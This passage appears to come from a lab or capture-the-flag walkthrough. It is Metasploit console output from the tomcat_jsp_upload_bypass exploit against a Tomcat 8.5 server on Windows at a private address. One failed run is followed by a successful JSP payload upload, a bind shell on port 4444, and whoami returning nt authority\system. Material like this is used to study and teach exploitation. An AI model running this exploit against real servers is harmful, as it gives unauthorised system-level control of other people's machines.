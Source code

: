 ```
   --  ----
   0   Automatic


msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > set SHELL cmd
SHELL => cmd
```

```
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > run

[*] Uploading payload...
[-] Exploit aborted due to failure: payload-failed: Failed to execute the payload
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > run

[*] Uploading payload...
[*] Payload executed!
[*] Started bind TCP handler against 10.0.25.99:4444
[*] Command shell session 1 opened (10.10.16.2:36173 -> 10.0.25.99:4444) at 2023-01-31 08:59:28 +0530

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 8.5>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 8.5

09/16/2020  06:00 AM    <DIR>          .
09/16/2020  06:00 AM    <DIR>          ..
09/16/2020  06:00 AM    <DIR>          bin
09/16/2020  06:02 AM    <DIR>          conf
09/16/2020  06:00 AM    <DIR>          lib
07/24/2017  09:01 PM            58,153 LICENSE
01/31/2023  03:10 AM    <DIR>          logs
07/24/2017  09:01 PM             1,774 NOTICE
07/24/2017  09:01 PM             7,241 RELEASE-NOTES
09/16/2020  06:00 AM    <DIR>          temp
07/24/2017  09:01 PM            21,630 tomcat.ico
07/24/2017  09:01 PM            73,624 Uninstall.exe
09/16/2020  06:00 AM    <DIR>          webapps
09/16/2020  06:00 AM    <DIR>          work
               5 File(s)        162,422 bytes
               9 Dir(s)   8,762,023,936 bytes free
```

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>whoami
whoami
nt authority\system
C:\Program Files\Apache Software Foundation\Tomcat 8.5>^Z
Background session 1? [y/N]  y
```
